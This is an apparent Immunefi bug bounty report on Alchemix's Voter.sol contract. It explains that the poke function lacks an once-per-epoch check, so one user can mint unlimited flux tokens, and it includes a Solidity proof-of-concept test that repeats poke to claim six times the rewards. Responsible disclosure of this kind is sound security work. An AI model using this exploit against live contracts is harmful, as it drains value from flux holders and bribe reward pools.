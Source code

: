 
# Users can vote multiple times in one epoch

Submitted on Sun May 19 2024 23:58:18 GMT-0400 (Atlantic Standard Time) by @MahdiKarimi for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31483

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
Users can mint unlimited flux by calling `poke` multiple times 

## Vulnerability Details
The vote function at voter uses onlyNewEpoch modifier so users can vote only once per epoch and receive flux tokens, however, the `poke` function that applies voting in the last epoch to the current epoch doesn't use this modifier and user can call it multiple times in one epoch and receive unlimited flux 
also, every time `_vote` function is called in `poke`, it resets the last voting and calls deposit at the bribe which inflates total voting at bribe so distributed rewards to bribe would be lost ( total voting used to calculate amount of rewards has been distributed per token ) 

## Impact Details
Minting unlimited flux tokens leads flux price to 0 ( Direct theft of any user funds, whether at rest or in motion, other than unclaimed yield ) , the flux token is used as a reward for users but it's an ERC20 and can be traded in markets ( has some utilities ) so minting unlimited flux affects all flux holders ( not just rewarded users ) and leads to the loss of their assets that's why I believe it's considered direct theft of user funds.

Loss of distributed rewards at underlying bribes 
## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-L212

        
## Proof of concept
## Proof of Concept
```
function testVoteWithoutLimit() external {

        // create lock token for user 
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), false);

        // calculate the amount flux tokens that user should be able to claim in this epoch 
        uint256 token1Flux = veALCX.claimableFlux(tokenId1);

        // assert user has no unclaimed flux 
        uint256 unclaimedFlux1Start = flux.getUnclaimedFlux(tokenId1);
        assertEq(unclaimedFlux1Start, 0, "should start with no unclaimed flux");


        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        // vote and calling poke multiple times 
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);
        hevm.prank(admin);
        voter.poke(tokenId1);

        // as we see user has received 6 times more rewards as we called poke multiple times
        uint256 actualFluxClaimed = 6 * token1Flux;
        uint256 unclaimedFlux1End = flux.getUnclaimedFlux(tokenId1);
        assertEq(actualFluxClaimed, unclaimedFlux1End);

    }
```